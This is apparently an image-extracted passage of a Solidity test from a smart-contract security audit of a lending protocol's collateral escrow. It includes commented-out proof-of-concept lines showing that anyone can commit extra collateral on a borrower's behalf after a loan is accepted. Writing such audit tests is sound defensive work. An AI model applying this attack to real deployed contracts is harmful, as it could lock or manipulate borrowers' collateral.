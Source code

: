 ```solidity
        collateralInfo[0] = info;

        // Submit bid as borrower
        uint256 bidId = submitCollateralBid(collateralInfo);
        // Accept bid as lender - state changes to Accepted
        acceptBid(bidId);

        // Get newly created escrow
        address escrowAddress = collateralManager._escrows(bidId);
        CollateralEscrowV1 escrow = CollateralEscrowV1(escrowAddress);

        uint256 storedBidId = escrow.getBid();
        // Test that the created escrow has the same bidId and collateral stored
        assertEq(bidId, storedBidId, "Collateral escrow was not created");

        uint256 escrowBalance = wethMock.balanceOf(escrowAddress);
        assertEq(collateralAmount, escrowBalance, "Collateral was not stored");

        console.log("Before Vul: ");
        console.log("Weth: ", wethMock.balanceOf(address(borrower)));
        console.log("Dai: ", daiMock.balanceOf(address(borrower)));
        console.log("Escrow Weth Balance: ", escrowBalance);
        
        // --------------------------------------------------------------------
        
        // VULN - anyone can still add collateral on behalf of the borrower
        // uncomment this to test vulnerability
       //  info._amount = collateralAmount*100;

        // If the token of new collateral is different with every token in the previous bid, the attack works.
        // However, to make this new collateral be committed successfully, borrower should have this amount of token.
        // Therefore, the attacker should send this amount of token before attack.
        // uncomment the next line to test CASE 2:
        // info._collateralAddress = address(daiMock);
        
        // If the token of new collateral is same with one in the previous bid, the attack does not work
        // because the escrow holds one collateral per one token.
         // uncomment the next line to test CASE 1:
        // info._collateralAddress = address(wethMock);
        
        // uncomment this to test vuln
        // collateralManager.commitCollateral(bidId, collateralInfo);
        
        // --------------------------------------------------------------------

        // repay loan
        uint256 borrowerBalanceBefore = wethMock.balanceOf(address(borrower));
        console.log("\nBefore repaying: ");
        console.log("Borrower weth: ", borrowerBalanceBefore);
        console.log("Borrower dai: ", daiMock.balanceOf(address(borrower)));
        Payment memory amountOwed = tellerV2.calculateAmountOwed(bidId);
        borrower.addAllowance(
            address(daiMock),
            address(tellerV2),
            amountOwed.principal + amountOwed.interest
        );
        borrower.repayLoanFull(bidId);

        // Check borrower balance for collateral
        uint256 borrowerBalanceAfter = wethMock.balanceOf(address(borrower));
```